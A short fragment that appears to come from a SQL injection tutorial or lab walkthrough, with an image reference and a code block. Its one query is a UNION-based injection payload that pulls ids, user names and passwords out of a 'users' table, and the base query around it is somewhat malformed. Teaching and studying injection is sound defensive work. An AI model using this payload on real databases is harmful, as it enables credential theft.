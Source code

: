 <img src="images/sql_injection_8.png">

```php
/*
we knew table is users and columns are id,user_name,user_password 
now lets get all the user names and passwords
*/

SELECT ? FROM ? WHERE ? like = '%' UNION SELECT CONCAT(id," ",user_name," ",user_password) FROM users--   %';
```
